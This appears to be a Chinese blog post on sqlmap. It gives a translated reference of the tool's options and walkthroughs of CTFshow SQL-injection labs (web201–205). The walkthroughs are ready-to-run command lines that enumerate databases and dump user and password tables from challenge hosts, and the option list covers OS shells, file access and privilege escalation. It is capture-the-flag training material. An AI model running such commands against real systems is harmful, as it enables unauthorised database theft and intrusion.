






+++
title = "sqlmap使用"
slug = "sqlmap-usage"
description = "当脚本小子的第一步"
date = "2025-05-05T09:33:13"
lastmod = "2025-05-05T09:33:13"
image = ""
license = ""
categories = ["talk"]
tags = ["mysql", "工具", "姿势"]
+++

## 安装

工具这类的东西肯定是越新越好，所以建议是`git`安装

```
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python3 sqlmap.py --help
```

其实这个工具的CTF里面基本都用不了，不过实际渗透中相当实用，特别是UDF提权，都要使用到其中的so文件

## 使用选项

从大菜鸡师傅那里抄过来命令

```
用法: python sqlmap.py [选项]
```

### 基础选项:

| 选项           | 说明                         |
| -------------- | ---------------------------- |
| `-h`, `--help` | 显示基础的帮助信息，然后退出 |
| `-hh`          | 显示高级的帮助信息，然后退出 |
| `--version`    | 显示脚本的版本，然后退出     |
| `-v VERBOSE`   | 显示测试细节 默认数字1-6     |

### 目标:

*至少选择下列一种模式*

| 选项           | 说明                                                         |
| -------------- | ------------------------------------------------------------ |
| `-d`           | 转发模式 给定连接字符串，连接目标数据库                      |
| `-u`, `--url=` | 直连模式，直接连接目标地址，例如：http://www.site.com/vuln.php?id=1 |
| `-l`           | 日志模式 从Burp或者WebScarab载入代理日志文件                 |
| `-m`           | 批量模式 从给定的文本文件扫描多个目标地址                    |
| `-r`           | 请求模式 从文件中载入http请求                                |
| `-g`           | 谷歌傻瓜模式 从谷歌搜索地址做为目标地址                      |
| `-c`           | 配置模式 从ini配置文件载入目标地址                           |

### 请求:

*下面的选项是用来详细说明如何连接目标地址*

| 选项                   | 说明                                                         |
| ---------------------- | ------------------------------------------------------------ |
| `--method=方法`        | 强制使用指定的方式进行连接，例如 PUT                         |
| `--data=数据`          | 通过POST发送数据字符串，例如: `--data="id=1"`                |
| `--param-del=参数分割` | 参数分割字符，例如：&                                        |
| `--cookie=COOKIE`      | HTTP Cookie 头的值 例如: `PHPSESSID=a8d127e..`               |
| `--cookie-del=COO..`   | cookie分割字符，例如：;                                      |
| `--load-cookies=L..`   | 从文件载入cookie值                                           |
| `--drop-set-cookie`    | 忽略响应数据中的 Set-Cookie，即使用响应cookie                |
| `--user-agent=AGENT`   | 设置HTTP User-Agent 的值                                     |
| `--random-agent`       | 使用随机 User-Agent 的值                                     |
| `--host=HOST`          | 设置 HTTP Host 的值                                          |
| `--referer=REFERER`    | 设置 HTTP Referer 的值                                       |
| `-H HEADER`, `--hea..` | 设置拓展头 例如：`X-Forwarded-For: 127.0.0.1`                |
| `--headers=HEADERS`    | 设置多个HTTP头 例如：`Accept-Language: fr\nETag: 123`        |
| `--auth-type=AUTH..`   | 设置HTTP认证类型 (Basic, Digest, NTLM 或 PKI)                |
| `--auth-cred=AUTH..`   | 设置HTTP认证账密 例如：`name:password`                       |
| `--auth-file=AUTH..`   | 设置PEM私钥证书文件                                          |
| `--ignore-code=IG..`   | 忽略HTTP错误码 例如：401                                     |
| `--ignore-proxy`       | 忽略系统的代理设置                                           |
| `--ignore-redirects`   | 忽略重定向尝试                                               |
| `--ignore-timeouts`    | 忽略连接超时                                                 |
| `--proxy=PROXY`        | 使用代理连接目标地址                                         |
| `--proxy-cred=PRO..`   | 使用代理进行HTTP认证 例如：`name:password`                   |
| `--proxy-file=PRO..`   | 从文件中载入代理列表                                         |
| `--tor`                | 使用洋葱匿名网络                                             |
| `--tor-port=TORPORT`   | 设置洋葱匿名代理的非默认端口                                 |
| `--tor-type=TORTYPE`   | 设置洋葱匿名代理的类型 例如：HTTP, SOCKS4 或 SOCKS5 (默认))  |
| `--check-tor`          | 检查洋葱匿名代理网络是否可用                                 |
| `--delay=DELAY`        | 设置两次请求之间的延时，单位：秒                             |
| `--timeout=TIMEOUT`    | 设置连接目标地址超时时间 (默认30秒)                          |
| `--retries=RETRIES`    | 设置连接超时重试次数 (默认3次)                               |
| `--randomize=RPARAM`   | 对给定的请求参数值进行随机化                                 |
| `--safe-url=SAFEURL`   | 设置在测试目标地址前访问的安全链接                           |
| `--safe-post=SAFE..`   | 设置安全链接POST发送的数据                                   |
| `--safe-req=SAFER..`   | 从文件中载入安全链接列表                                     |
| `--safe-freq=SAFE..`   | 设置两次注入测试前访问安全链接的次数                         |
| `--skip-urlencode`     | 跳过对攻击载荷的URL编码                                      |
| `--csrf-token=CSR..`   | 保存反CSRF令牌                                               |
| `--csrf-url=CSRFURL`   | 提取CSRF令牌的地址                                           |
| `--force-ssl`          | 强制使用 SSL/HTTPS                                           |
| `--hpp`                | 使用HTTP参数污染                                             |
| `--eval=EVALCODE`      | 请求前使用自定义python脚本 例如：<br>`import hashlib;`<br/>`id2=hashlib.md5(id).hexdigest()` |

### 优化选项:

*下面的选项是用来优化sqlmap的性能*

| 选项                | 说明                               |
| ------------------- | ---------------------------------- |
| `-o`                | 打开所有优化选项开关               |
| `--predict-output`  | 预测常见查询输出                   |
| `--keep-alive`      | 使用 HTTP(s) 持久化连接            |
| `--null-connection` | 只检测响应数据长度，不检测响应内容 |
| `--threads=THREADS` | 设置最大运行线程 (默认1线程)       |

### 注入选项:

*下面的选项用来指定注入测试的定制参数和篡改脚本*

| 选项                 | 说明                                     |
| -------------------- | ---------------------------------------- |
| `-p TESTPARAMETER`   | 设置要注入的参数                         |
| `--skip=SKIP`        | 设置要跳过注入的参数                     |
| `--skip-static`      | 设置跳过静态参数                         |
| `--param-exclude=..` | 对要注入参数进行正则匹配 例如：ses       |
| `--dbms=DBMS`        | 指定注入地址的后台数据库名称             |
| `--dbms-cred=DBMS..` | 指定数据库认证账密 例如：`user:password` |
| `--os=OS`            | 指定注入地址的操作系统                   |
| `--invalid-bignum`   | 对注入参数使用超大数字使其失效           |
| `--invalid-logical`  | 对注入参数使用逻辑运算使其失效           |
| `--invalid-string`   | 对注入参数使用随机字符串使其失效         |
| `--no-cast`          | 关闭攻击载荷的生成器                     |
| `--no-escape`        | 关闭字符逃逸的生成器                     |
| `--prefix=PREFIX`    | 攻击载荷的前缀                           |
| `--suffix=SUFFIX`    | 攻击载荷的后缀                           |
| `--tamper=TAMPER`    | 指定攻击载荷的篡改脚本                   |

### 检测选项:

*下面的选项用来定制检测*

| 选项                 | 说明                                                 |
| -------------------- | ---------------------------------------------------- |
| `--level=LEVEL`      | 指定注入测试级别 例如：1-5, 默认 1                   |
| `--risk=RISK`        | 指定注入测试风险等级，防止破坏数据 例如：1-3, 默认 1 |
| `--string=STRING`    | 指定攻击载荷执行成功返回的字符串                     |
| `--not-string=NOT..` | 指定攻击载荷执行失败返回的字符串                     |
| `--regexp=REGEXP`    | 指定攻击载荷执行成功匹配的正则表达式                 |
| `--code=CODE`        | 指定攻击载荷执行成功返回的HTTP状态码                 |
| `--text-only`        | 设置只检测返回文本来确定攻击载荷执行情况             |
| `--titles`           | 设置检测返回页面标题确定攻击载荷执行情况             |

### 技术选项:

*下面选项用来指定参数来调整指定的注入测试选项*

| 选项                 | 说明                             |
| -------------------- | -------------------------------- |
| `--technique=TECH`   | 开启定制 (default "BEUSTQ")      |
| `--time-sec=TIMESEC` | 指定目标数据库响应时间 (默认5秒) |
| `--union-cols=UCOLS` | 指定联合查询注入的列范围         |
| `--union-char=UCHAR` | 指定联合查询猜测列数量最大长度   |
| `--union-from=UFROM` | 指定联合查询使用的表             |
| `--dns-domain=DNS..` | 指定DNS外带的解析地址            |
| `--second-url=SEC..` | 指定二次注入的结果页面           |
| `--second-req=SEC..` | 指定二次注入的结果页面列表文件   |

### 指纹选项:

| 选项                  | 说明                   |
| --------------------- | ---------------------- |
| `-f`, `--fingerprint` | 使用常见数据库指纹识别 |

### 枚举选项:

*下面的选项用来枚举后端数据库管理系统的信息、结构以及表内的包含数据。此外，你可以运行自己的SQL语句*

| 选项                 | 说明                                                   |
| -------------------- | ------------------------------------------------------ |
| `-a`, `--all`        | 检索所有内容                                           |
| `-b`, `--banner`     | 检索数据库欢迎信息                                     |
| `--current-user`     | 检索数据库的当前用户                                   |
| `--current-db`       | 检索当前使用的数据库名称                               |
| `--hostname`         | 检索数据库计算机名称                                   |
| `--is-dba`           | 检测当前用户是否为数据库管理员                         |
| `--users`            | 枚举数据库的所有用户                                   |
| `--passwords`        | 枚举数据库的所有用户密码哈希值                         |
| `--privileges`       | 枚举数据库的所有用户权限                               |
| `--roles`            | 枚举数据库的所有用户角色                               |
| `--dbs`              | 枚举数据库的所有数据库                                 |
| `--tables`           | 枚举数据库的所有表                                     |
| `--columns`          | 枚举数据库的所有列                                     |
| `--schema`           | 枚举数据库汇总数据                                     |
| `--count`            | 检索数据库的记录总数                                   |
| `--dump`             | 转储数据库表的记录                                     |
| `--dump-all`         | 转储数据库的所有表记录，俗称脱裤                       |
| `--search`           | 搜索指定列、表、数据库                                 |
| `--comments`         | 枚举时检测数据库的注释                                 |
| `-D DB`              | 指定要枚举的数据库名称                                 |
| `-T TBL`             | 指定要枚举的表名称                                     |
| `-C COL`             | 指定要枚举的列名称                                     |
| `-X EXCLUDE`         | 指定排除枚举的数据库名称                               |
| `-U USER`            | 指定枚举时的数据库用户                                 |
| `--exclude-sysdbs`   | 设置枚举时包含数据库系统自带表                         |
| `--pivot-column=P..` | 指定主键名称                                           |
| `--where=DUMPWHERE`  | 转储数据表时，使用where条件语句                        |
| `--start=LIMITSTART` | 转储表时，使用limit语句进行显示，设置limit的第一个参数 |
| `--stop=LIMITSTOP`   | 转储表时，使用limit语句进行显示，设置limit的第二个参数 |
| `--first=FIRSTCHAR`  | 查询时使用的第一个字符                                 |
| `--last=LASTCHAR`    | 查询时使用的最后一个字符                               |
| `--sql-query=QUERY`  | 执行sql语句                                            |
| `--sql-shell`        | 使用可交互sql-shell                                    |
| `--sql-file=SQLFILE` | 指定执行sql语句的文件                                  |

### 暴力破解选项:

*下面的选项用来设置暴力破解参数*

| 选项               | 说明             |
| ------------------ | ---------------- |
| `--common-tables`  | 使用本地表名字典 |
| `--common-columns` | 使用本地列明字典 |

### 自定义函数选项:

*下面的选项用来生成和运行自定义函数*

| 选项                 | 说明               |
| -------------------- | ------------------ |
| `--udf-inject`       | 注入自定义函数     |
| `--shared-lib=SHLIB` | 指定本地函数共享库 |

### 文件系统访问选项:

*下面的选项用来设置目标系统的文件系统访问参数*

| 选项                 | 说明                         |
| -------------------- | ---------------------------- |
| `--file-read=FILE..` | 从目标系统的文件系统读入文件 |
| `--file-write=FIL..` | 向目标系统的文件系统写入文件 |
| `--file-dest=FILE..` | 要写入文件的绝对路径         |

### 操作系统访问选项:

*下面的选项用来设置对目标操作系统的访问参数*

| 选项                 | 说明                                   |
| -------------------- | -------------------------------------- |
| `--os-cmd=OSCMD`     | 执行操作系统命令                       |
| `--os-shell`         | 反弹操作系统的shell                    |
| `--os-pwn`           | 反弹OOBshell, Meterpreter 或 VNC       |
| `--os-smbrelay`      | 一键反弹 OOB shell, Meterpreter or VNC |
| `--os-bof`           | 保存缓冲器溢出攻击载荷                 |
| `--priv-esc`         | 数据库账户提权                         |
| `--msf-path=MSFPATH` | Metasploit Framework本地安装路径       |
| `--tmp-path=TMPPATH` | 远程临时文件存放的绝对路径             |

### Windows注册表访问选项:

*下面的选项用来设置Windows系统的注册表访问参数*

| 选项                 | 说明                 |
| -------------------- | -------------------- |
| `--reg-read`         | 读取注册表的指定键值 |
| `--reg-add`          | 向注册表写入指定键值 |
| `--reg-del`          | 删除之策表指定键值   |
| `--reg-key=REGKEY`   | 设置注册表的键名     |
| `--reg-value=REGVAL` | 设置注册表的键值     |
| `--reg-data=REGDATA` | 设置注册表的键数据   |
| `--reg-type=REGTYPE` | 设置注册表的键类型   |

### 公共选项:

*下面的选项用来设置公共参数*

| 选项                 | 说明                                              |
| -------------------- | ------------------------------------------------- |
| `-s SESSIONFILE`     | 载入测试会话文件                                  |
| `-t TRAFFICFILE`     | 记录所有的HTTP测试结果至文本文件                  |
| `--answers=ANSWERS`  | 设置默认回应 例如 quit=N,follow=N                 |
| `--base64=BASE64P..` | 设置参数包含base64数据                            |
| `--batch`            | 静默执行，使用默认选项进行                        |
| `--binary-fields=..` | 返回结果包含二进制数据                            |
| `--check-internet`   | 进行注入测试前，检查网络联通情况                  |
| `--crawl=CRAWLDEPTH` | 对指定地址爬虫测试                                |
| `--crawl-exclude=..` | 对匹配正则表达式的页面地址进行爬虫测试            |
| `--csv-del=CSVDEL`   | 设置csv格式的分割符                               |
| `--charset=CHARSET`  | 设置盲注测试字符集 例如：0123456789abcdef         |
| `--dump-format=DU..` | 对转储文件进行转换 例如：CSV(默认), HTML 或SQLITE |
| `--encoding=ENCOD..` | 设置检索时的字符集 例如：GBK                      |
| `--eta`              | 显示输出耗时                                      |
| `--flush-session`    | 刷新当前目标地址的会话                            |
| `--forms`            | 对目标地址提交表单测试                            |
| `--fresh-queries`    | 忽略已缓存的查询结果                              |
| `--har=HARFILE`      | 保存所有HTTP响应至HAR文件                         |
| `--hex`              | 检索返回数据时使用16进制                          |
| `--output-dir=OUT..` | 自定义输出文件路径                                |
| `--parse-errors`     | 显示页面上的数据库错误                            |
| `--preprocess=PRE..` | 使用指定脚本提交请求                              |
| `--postprocess=PO..` | 使用指定脚本处理请求响应                          |
| `--repair`           | 转储未知字符时，使用的替换字符                    |
| `--save=SAVECONFIG`  | 将当前的配置保存至配置文件                        |
| `--scope=SCOPE`      | 使用正则表达式匹配代理地址列表                    |
| `--test-filter=TE..` | 选择标题且(或)为指定字符串的攻击载荷              |
| `--test-skip=TEST..` | 忽略标题且(或)为指定字符串的攻击载荷              |
| `--update`           | 更新 sqlmap                                       |

### 其他选项:

| 选项                 | 说明                                             |
| -------------------- | ------------------------------------------------ |
| `-z MNEMONICS`       | 使用助记符 例如：flu,bat,ban,tec=EU              |
| `--alert=ALERT`      | 注测测试成功执行的本地系统命令                   |
| `--beep`             | 注入点测试成功主板蜂鸣                           |
| `--cleanup`          | 使用自定义函数情况数据库                         |
| `--dependencies`     | 检查sqlmap的组件完整性                           |
| `--disable-coloring` | 关闭彩色输出                                     |
| `--gpage=GOOGLEPAGE` | 谷歌傻瓜式注入扫描的页数                         |
| `--identify-waf`     | Make a thorough testing for a WAF/IPS protection |
| `--list-tampers`     | 显示篡改脚本列表                                 |
| `--mobile`           | 使用手机UA                                       |
| `--offline`          | 离线模式                                         |
| `--purge`            | 安全卸载所有sqlmap内容                           |
| `--skip-waf`         | 放弃测试具有启发式WAF保护的地址                  |
| `--smart`            | 检测是否时启发式WAF保护                          |
| `--sqlmap-shell`     | 反弹sqlmap的shell                                |
| `--tmp-dir=TMPDIR`   | 设置sqlmap本地临时文件路径                       |
| `--web-root=WEBROOT` | 设置http服务的网页根目录 例如：/var/www          |
| `--wizard`           | 使用sqlmao时开启简单向导                         |

> CTFshow-大菜鸡 于 2020-11-14 夜完成

常用的命令将会在例题中出现，其中最常用的应该是利用数据包来完成注入

```http
POST /login.php HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

username=admin&password=test
```

对`username`参数进行注入，运行命令`python sqlmap.py -r request.txt -p username`

```http
GET /api/?id=1111&page=1&limit=10 HTTP/1.1
Host: 6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show/sqlmap.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close


```

对`id`进行参数注入，`python sqlmap.py -r request.txt -p id`，还有就是代理到bp，看Ta发的包，参数为`--proxy="http://127.0.0.1:8080"`



## 例题

### web201

说了要指定UA头和referer

```shell
python3 sqlmap.py -u "http://6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show/api/?id=1" --user-agent=sqlmap --referer=ctf.show
```



确认注入类型，然后就梭哈就完事了

```shell
python3 sqlmap.py -u "http://6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show/api/?id=1" --user-agent=sqlmap --referer=ctf.show --dbs

python3 sqlmap.py -u "http://6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show/api/?id=1" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web --tables

python3 sqlmap.py -u "http://6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show/api/?id=1" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user --columns

python3 sqlmap.py -u "http://6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show/api/?id=1" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user --dump

python3 sqlmap.py -u "http://6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show/api/?id=1" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user -C id,username,pass --dump

python3 sqlmap.py -u "http://6c4586c9-e3cd-422d-81b4-edd84f668efb.challenge.ctf.show/api/?id=1" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user -C pass --dump
```

### web202

虽然参数是GET参数，但是就是要使用data来传参

```shell
python3 sqlmap.py -u "http://c4669376-5f6c-4214-90a2-38647c73550a.challenge.ctf.show/api/" --data="id=1" --user-agent=sqlmap --referer=ctf.show

python3 sqlmap.py -u "http://c4669376-5f6c-4214-90a2-38647c73550a.challenge.ctf.show/api/" --data="id=1" --user-agent=sqlmap --referer=ctf.show -dbs

python3 sqlmap.py -u "http://c4669376-5f6c-4214-90a2-38647c73550a.challenge.ctf.show/api/" --data="id=1" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web --tables

python3 sqlmap.py -u "http://c4669376-5f6c-4214-90a2-38647c73550a.challenge.ctf.show/api/" --data="id=1" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user --dump
```

### web203

```shell
python3 sqlmap.py -u "http://d3894a03-1770-455d-9da7-1894f0687aec.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --user-agent=sqlmap --referer=ctf.show --batch

python3 sqlmap.py -u "http://d3894a03-1770-455d-9da7-1894f0687aec.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --user-agent=sqlmap --referer=ctf.show --dbs --batch

python3 sqlmap.py -u "http://d3894a03-1770-455d-9da7-1894f0687aec.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web --tables

python3 sqlmap.py -u "http://d3894a03-1770-455d-9da7-1894f0687aec.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web -T ctfshow_user --dump
```

路由不能写错，`/api/`不接受PUT传参，始终有405错误，写成`/api/index.php`就可以了

### web204

把Cookie带上就可以了

```shell
python3 sqlmap.py -u "http://17a220a4-5488-4d09-9c20-ce4d851f6b32.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --user-agent=sqlmap --referer=ctf.show --cookie="ctfshow=f1a8dd82330be40c19146f968a9a61b3;PHPSESSID=qlkq87qii1p445gqkn6h4fi6o3" --batch

python3 sqlmap.py -u "http://17a220a4-5488-4d09-9c20-ce4d851f6b32.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --user-agent=sqlmap --referer=ctf.show --cookie="ctfshow=f1a8dd82330be40c19146f968a9a61b3;PHPSESSID=qlkq87qii1p445gqkn6h4fi6o3" --dbs --batch

python3 sqlmap.py -u "http://17a220a4-5488-4d09-9c20-ce4d851f6b32.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --user-agent=sqlmap --referer=ctf.show --cookie="ctfshow=f1a8dd82330be40c19146f968a9a61b3;PHPSESSID=qlkq87qii1p445gqkn6h4fi6o3" -D ctfshow_web --tables --batch

python3 sqlmap.py -u "http://17a220a4-5488-4d09-9c20-ce4d851f6b32.challenge.ctf.show/api/index.php" --data="id=1" --method=PUT --headers="Content-Type:text/plain" --user-agent=sqlmap --referer=ctf.show --cookie="ctfshow=f1a8dd82330be40c19146f968a9a61b3;PHPSESSID=qlkq87qii1p445gqkn6h4fi6o3" -D ctfshow_web -T ctfshow_user --dump --batch
```

### web205

每次查询之前会先去`/api/getToken.php`，拿到Cookie再去查询`PHPSESSID=9kfu8beesnj6mk7j0554lh8fgp`

```shell
python3 sqlmap.py -u "http://664e502c-af1a-4845-aae9-0cee9c9ba258.challenge.ctf.show/api/index.php" --data="id=1"  --method=PUT --headers="Content-Type:text/plain" --safe-url="http://664e502c-af1a-4845-aae9-0cee9c9ba258.challenge.ctf.show/api/getToken.php" --safe-freq=1 --cookie="PHPSESSID=9kfu8beesnj6mk7j0554lh8fgp" --user-agent=sqlmap --referer=ctf.show -D ctfshow_web --tables

